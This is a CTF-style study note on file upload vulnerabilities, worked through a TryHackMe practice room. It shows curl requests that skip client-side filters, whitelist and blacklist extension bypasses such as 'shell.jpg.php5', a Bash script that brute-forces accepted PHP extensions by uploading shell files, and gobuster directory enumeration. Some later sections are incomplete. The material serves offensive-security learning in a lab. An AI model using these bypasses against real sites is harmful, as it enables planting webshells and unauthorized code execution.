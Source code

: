# Upload vulnerabilities

{% embed url="https://tryhackme.com/room/uploadvulns" %}
TryHackMe upload vulnerabilities practice room
{% endembed %}

### Bypassing client-side filtering

1. Direct server requests with _cURL_

_Eg._

> Task 7 of the _tryhackme.com_ practice room (link provided at the top)

The following Javascript file defines the client-side filtering logic, which only allows file uploads of the type `image/png`:

```javascript
...
...
		if (file.type != "image/png"){
			upload.value = "";
			uploadMsg.style = "display:none;";
			error();
		} else{
			uploadMsg.innerHTML = "Chosen File: " + upload.value.split(/(\\|\/)/g).pop();
			responseMsg.style="display:none;";
			errorMsg.style="display:none;";
			success();
		}

...
...
```

Given the following form field in the HTML source code:

```html
<form method="post" enctype="multipart/form-data">
    <input type="file" name="fileToUpload" id="fileSelect" style="display:none">
    <input class="Btn" type="submit" value="Upload" name="submit" id="submitBtn">
</form>
```

A cURL request can be sent directly to the server — completely bypassing the client-side filter.

The `-F` or `--form` flag in the _cURL_ command can be used to send form-data (given that the file `shell.php` is found in the same directory):

```bash
curl 'http://java.uploadvulns.thm/' \
  -H 'Host: java.uploadvulns.thm' \
  -F 'fileToUpload=@shell.php;type=text/x-php'
  -F 'submit=Upload'
```

The Content-Type header will be automatically added to the final  HTTP _POST_ request, and will look like the following:

```http
Content-Type: multipart/form-data; boundary=------------------------xxxx
```



2. Interceping and modifying requests with _BurpSuite_

_BurpSuite_ can be used to modify:

a) The GET response from the server to the client, allowing the removal of JavaScript filter logic loaded on the client side&#x20;

b) The POST request sent to the server, enabling the removal of client-side filtering before the data is uploaded



### Bypassing server-side filtering

### 1. File extension

a) Presence of valid file extension anywhere within the filename (_whitelist bypass_)

Some server-side filtering mechanism check if the filename contains a valid file extension without enforcing strict validation at the end of the filenam. This logic can be exploited by including the allowed extension within the filename while using a malicious extension.

A possible server-side logic:

```php
IF STRING ".[file-ext]" IS IN VARIABLE <user_input>:
    PROCEED
ELSE:
    RETURN ERROR MESSAGE
```

Eg. Given that the valid file extension is `.jpg`. A possible valid filename can be: `shell.jpg.php`. This allows us to bypass the filter and upload a PHP file — providing us a platform for code execution..



b) Using uncommon file extension for the same file-type (_blacklist bypass_)

Some server-side filtering logic may check the file extension, and reject the file based on a blacklist. However, blacklist implementations are often incomplete, and fail to cover all possible extensions for the same file-type. This allows us to sneak a filename through the filters, which may be recognized and executed by the server.

Refer to the sub-page named: _**File extension cheat-sheet**_.

Eg. Given that `.php` is blacklisted, `.php5` may still be allowed. Thus, the filename `shell.php5` will be accepted by the server, and may execute if configured to handle `.php5` files as PHP scripts — providing us a platform for code execution.



### Examples

Eg.

> Task 8 of the _tryhackme.com_ practice room (link provided at the top)

This challenge requires the combination of method 1 and 2 discussed above (\*\*TO CONFIRM).

I decided to create a simple Bash shell script to automate the process of finding the valid filename.

_**php-ext.txt**_ (wordlist of PHP file extensions)

```
.phtml
.php3
.php4
.php5
.php7
.phps
.php-s
.pht
.phar
```

_**Bash shell script**_

```sh
#!/bin/bash

file="php-ext.txt"
while IFS="" read -r cur;
do
	if [[ -z "$cur" ]]; then
		continue
	fi

	res=$(curl http://annex.uploadvulns.thm -H "Host: annex.uploadvulns.thm" -F "fileToUpload=@shell.jpg$cur;type=application/octet-stream" -F "submit=Upload" -s -o /dev/null -D - | grep 'location')

	# alternatively,
	# if [[ "$res" == *"/?submit=success"* ]]; then
	if echo "$res" | grep -q "/?submit=success"; then
		printf "FOUND: $cur"
		exit 0
	fi

done < "$file"
```

Output: `FOUND: .php5`

The accepted PHP shell script filename is `shell.jpg.php5`.

### 2. Magic numbers

Magic number refers to the 4 hexadecimal digits present at the start of a file. It is used to identify the type of file, and can be viewed by using the `xxd`/`hexdump` command (`hexeditor` to edit). This logic is implemented by some servers to detect the file-type for filtering purposes —  but unfortunately, can be easily workaround.

...

> [https://tryhackme.com/room/uploadvulns](https://tryhackme.com/room/uploadvulns) (TASK 9)&#x20;

_<mark style="color:orange;">**\*\* rmb do not include extra**</mark><mark style="color:orange;">**&#x20;**</mark><mark style="color:orange;">**`/`**</mark><mark style="color:orange;">**&#x20;**</mark><mark style="color:orange;">**at the end of the path passed to gobuster**</mark><mark style="color:orange;">**&#x20;**</mark><mark style="color:orange;">**`-u`**</mark><mark style="color:orange;">**&#x20;**</mark><mark style="color:orange;">**flag if the wordlist item already has a**</mark><mark style="color:orange;">**&#x20;**</mark><mark style="color:orange;">**`/`**</mark>_

a) Fingerprint the webserver technology — nodejs, Apache/PHP, etc.

* Visit webpage which returns 404 (the webserver tech may be shown)
* nmap script
* response headers?



```bash
$ gobuster dir -u http://magic.uploadvulns.thm/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/Common-PHP-Filenames.txt
```

`/index.php` (not present in the wordlist though) returned&#x20;

* &#x20;confirm PHP



b) Try common file upload directories for the found webserver technology (gobuster/manual?):

* assets/uploads/
* assets/js/ (if webserver is nodejs?)

```bash
$ gobuster dir -u http://magic.uploadvulns.thm/assets/FUZZ/background.php -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

Nothing found...

c) Upload magic-numbered file named background.jpg to overwrite file at `/assets/images/background.jpg` not working&#x20;
